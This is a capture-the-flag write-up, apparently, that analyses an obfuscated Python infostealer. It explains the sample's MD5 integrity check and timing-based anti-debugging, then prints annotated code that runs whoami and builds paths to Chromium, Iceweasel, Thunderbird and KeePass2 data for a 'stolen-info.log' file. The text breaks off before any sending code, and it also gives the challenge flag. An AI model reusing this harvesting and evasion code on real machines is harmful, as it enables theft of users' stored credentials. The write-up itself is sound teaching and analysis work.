 # Writeup  
At first, it checks for the integrity of itself, by computing the MD5 digest
and checking it against a pre-computed one, so if you modify the file without
modifying the digest, the malware won't "explode".

At last, before preparing data to send and before sending data, it checks that
the execution so far less took less than 2 seconds: it is a form of anti-
debugging.

In the middle, there are obfuscated lines of code and obfuscated functions:
the malware reads data from different common folders containing sensitive user
data, using system commands.

The idea is that it uses the first obfuscated part to prepare the names of the
targets, and the second part (after the "anti-debug check") to execute
commands to prepare the data that will be sent.

At this point, the best thing is to look again at the Python file, but with
comments: to solve the challenge, we followed the execution flow one
instruction at a time, by hand, writing the results of instructions and the
values of variables in comments.

```  
tressym = "fa86075165f2630ff80397bf98323716"  
lightning = [".chrom"]  
adventure = '/'

import os  
import subprocess  
import socket  
import hashlib  
import time

def main():  
   ranger = int(time.time())  
   if(str(hashlib.md5(open(__file__, "rb").read()[43:]).hexdigest()) ==
tressym):       # if you change it, you have to update md5 tressym  
       ether = -1  
       crawlingclaw = "who" + "ima"[::ether]	# whoami  
       ether = ether + 1  
       owlbear = os.popen(crawlingclaw).read().split('\n')[ether]	# execute whoami and save the result in owlbear  
       lightning[ether] = lightning[ether] + "iu" + lightning[ether][ether -1] + adventure	# .chromium/ in lightning[0]  
       pi = "PI.3.14159265"  
       yeti = "pass"  
       ether = ether + 1	# at this poit, ether is equal to 1  
       ancestral = makesoul(yeti)   
       # ancestral: [".mozilla/Iceweasel/", "never_use_password_autofill}", ".mozilla/Thunderbird/"]  
       arcane = "_info.log"  
       ancestral[ether] = chr(123) + 'n' + makesoul(yeti)[ether].split('n')[ether]  
       # ancestral[1]: "{never_use_password_autofill}"  
       gold = "stolen" + arcane	# stolen_info.log  
       ancestral[ether] = 'w' + pi.split('.')[ether - ether] + ancestral[ether]  
       # ancestral[1]: wPI{never_use_password_autofill}  
       gold = gold.replace('_', '-')	# stolen-info.log  
       for torrent in ancestral:  
           lightning.append(torrent)  
       # lightning = [".chromium/", ".mozilla/Iceweasel/", "wPI{never_use_password_autofill}", ".mozilla/Thunderbird/"]  
       ether = ether - ether	# 0, obviously  
       lightning.append(".kee" + yeti + '2' + adventure)	# .keepass2/  
       for fire in range(len(lightning)):  
```